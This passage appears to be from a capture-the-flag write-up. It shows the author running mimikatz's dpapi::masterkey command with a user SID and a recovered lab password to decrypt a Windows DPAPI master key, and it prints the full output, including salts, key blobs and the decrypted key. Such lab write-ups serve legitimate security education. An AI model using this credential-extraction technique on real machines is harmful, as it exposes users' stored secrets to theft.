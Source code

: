 #### Decrypt Master Key

I’ll move to a Windows host, and fire up `mimikatz`. I’ll use the `dpapi::masterkey` command to decrypt the master key using the password from the security account:

```

  .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # dpapi::masterkey /in:\users\0xdf\desktop\masterkey /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {0792c32e-48a5-4fe3-8b43-d93d64590580}
  dwFlags            : 00000005 - 5
  dwMasterKeyLen     : 000000b0 - 176
  dwBackupKeyLen     : 00000090 - 144
  dwCredHistLen      : 00000014 - 20
  dwDomainKeyLen     : 00000000 - 0
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 9c51ca4d00708c73d4fbff60b95e549e
    rounds           : 000043f8 - 17400
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
    pbKey            : e78fb1d989c4ccd7a05285c17fae1c31ad1210f7ada051ae3203536df
613e63a0e4647ca9ed51407637d8c1cc2ad16b2306aab56d7d2707b0c77422e7de39eb8bdfcca550
44b4a7f853b6f0b3333213b5b0d80c7c1021f6c4ac2f5fa3772adbe50af7fdf07b0e0ea940d70a12
45db7df847f615530a93895012a3ad9c7a8c39cc0592d06d714c9ee8fe34ced5062c412

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 4bb6dd9b5b9656d97b78f114796457f4
    rounds           : 000043f8 - 17400
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
    pbKey            : 0fe6b3aa5dd3af46bd7a87cbc0161fc41ae13f8714a22bcb5bda86f24
d95ad03369a5335159185d0276743d0c1132b35fdaffad247d3c4f5f43260413c28b401ed70e42e0
184f9e8c4668abc36eb7327bd2c7374a2381b4cdd4ea7c465deaa755e0f53672473900db8868b428
327edaa

[credhist]
  **CREDHIST INFO**
    dwVersion        : 00000003 - 3
    guid             : {009668e5-9305-401b-ba0d-dfa0e11b34d0}

[masterkey] with password: 4Cc3ssC0ntr0ller (normal user)
  key : b360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391
c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
  sha1: bf6d0654ef999c3ad5b09692944da3c0d0b68afe

```
